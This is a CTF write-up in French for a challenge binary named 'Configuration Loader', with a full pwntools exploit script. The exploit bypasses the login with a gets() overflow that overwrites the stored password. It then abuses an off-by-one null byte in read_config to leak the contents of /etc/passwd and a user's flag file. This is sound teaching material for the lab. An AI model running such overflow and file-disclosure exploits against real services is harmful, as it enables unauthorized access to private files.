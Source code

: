 # Configuration Loader

Le programme commence par les `file stream` à 0, ça peut être intéressant quand on manipule des `IO_file_stream` mais ça n'est pas le cas ici donc on s'en fout ^^

La fonction intéressante est *login* car si elle renvoie autre chose que zéro, on va pouvoir accéder au menu de gestion de la configuration

## Bypass login

Cette fonction nous demande un code qu'elle compare avec un pass généré aléatoirement.  
Le générateur est initialisé avec `time(NULL)` donc si on connait la timezone du serveur, on peut calculer le pass.  

Mais on peut faire plus simple !
La récupération de l'entrée utilisateur se fait via `gets` ce qui nous permet de faire un buffer overflow sur le buffer de reception.  
Et si l'on regarde ce que l'on peut écraser avec cet overflow, on voit que le buffer de pass est juste dernière notre entrée.

![stack_frame](stack_frame.png)

Donc si l'on envoie deux fois la même chose, on passe le `strcmp` avec succès:  
```python
p = p64(0xc0febabe)
p += p64(0xc0febabe)

io.sendlineafter(b'code:  \n',p)
```

On pourrait également penser qu'il est possible de récupérer la main sur le flux d'exécution via ce BOF en écrasant le pointeur de retour de la fonction mais le programme a étét compilé avec le stack canary donc ça n'est pas possible.  

Il va donc falloir trouver une faille dans la gestion de la fonfiguration

## Gestion de la config

L'analyse de la *jump table* n'a pas fonctionné sur Ghidra, j'ai donc du aller regarder directement en assembleur ce qu'il se passe en fonction de l'entrée utilisateur.  

Pour chaque choix, les fonctions appélées sont:
- 1: check_ram
- 2: check_integrity
- 3: push_config
- 4: read_config
- 5: exit

Les deux premiers ne font rien à part afficher du texte.  
*push_config* affiche le contenu de la variable globale `path`.  
*read_config* nous demande un chemin vers un fichier de config, l'enregistre dans `path` et lis son contenu dans `content`.

La vulnérabilité vient du fait que l'on peut donner un chemin d'une taille jusqu'à 64 caractères alors que le buffer de reception fait également 64 caractères. Donc le `\x00` indiquant la fin de la string va overflow.  
Et comme par hasard, ce qui se trouve juste après `path` est `content`

![Global vars](global_var.png)

Au moment d'enregister `path` le programme va ajouter un `\x00` à `path[64]` qui équivaut à `content[0]`. Et donc lors de la lecture du contenu de ce fichier va écraser ce 0.

Grâce à ça, l'affichage de `path` va nous afficher également `content` étant donné qu'il n'y as pas de fin de chaine pour `path`.

## Trouver le flag

Remplir le nom du chemin est assez simple car on peut ajouter autant de **/** qe l'on veut à un chemin sans que cela gêne linux.  
On sait qu'il est stocké quand le home de l'utilisateur. On va donc afficher le contenu de `/etc/passwd` pour trouver le nom de l'utilisateur puis récupérer le flag avec `/home/<user>/flag`

## Code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./confloader')

host = args.HOST or '10.22.6.20'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

context.terminal = ['xfce4-terminal','-e']
gdbscript = '''
b *login+253
b *login+335
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvuntil(b'Done !\n')

# Bypass de la fonction check
p = p64(0xc0febabe) # input buffer de 8 octets
p += p64(0xc0febabe) # overflow du check buffer
io.sendlineafter(b'code:  \n',p)

# Exploit de la vuln dans read_config
io.sendlineafter(b'>>>',b'4')
filename = b'passwd'
p = b'/etc/' 
# On ajoute autant de '/' pour remplir le buffer
p += b'/' * (0x40-len(filename)-len(p)) + filename
io.sendafter(b'File path:', p)

# On affiche illégalement le contenu d fichier
io.sendlineafter(b'>>>',b'3')

# Exploit de la vuln dans read_config
io.sendlineafter(b'>>>',b'4')
filename = b'flag'
p = b'/home/ghoztadm' 
# On ajoute autant de '/' pour remplir le buffer
p += b'/' * (0x40-len(filename)-len(p)) + filename
io.sendafter(b'File path:', p)

# On affiche illégalement le contenu d fichier
io.sendlineafter(b'>>>',b'3')

io.interactive()
```